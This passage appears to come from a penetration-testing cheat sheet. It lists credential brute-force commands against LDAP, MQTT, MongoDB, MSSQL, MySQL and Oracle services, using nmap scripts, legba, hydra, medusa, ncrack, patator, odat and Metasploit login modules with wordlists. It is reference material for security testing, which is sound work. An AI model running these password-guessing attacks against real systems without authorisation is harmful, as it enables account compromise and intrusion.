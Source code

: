 ```bash
nmap --script ldap-brute -p 389 <IP>
legba ldap --target 127.0.0.1:389 --username admin --password @wordlists/passwords.txt --ldap-domain example.org --single-match
```

### MQTT

```
ncrack mqtt://127.0.0.1 --user test –P /root/Desktop/pass.txt -v
legba mqtt --target 127.0.0.1:1883 --username admin --password wordlists/passwords.txt 
```

### Mongo

```bash
nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login
legba mongodb --target localhost:27017 --username root --password data/passwords.txt
```

### MSSQL

```bash
legba mssql --username SA --password wordlists/passwords.txt --target localhost:1433
```

### MySQL

```bash
# hydra
hydra -L usernames.txt -P pass.txt <IP> mysql

# msfconsole
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false

# medusa
medusa -h <IP/Host> -u $user -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql

#Legba
legba mysql --username root --password wordlists/passwords.txt --target localhost:3306
```

### OracleSQL

```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#for some reason nmap fails sometimes when executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```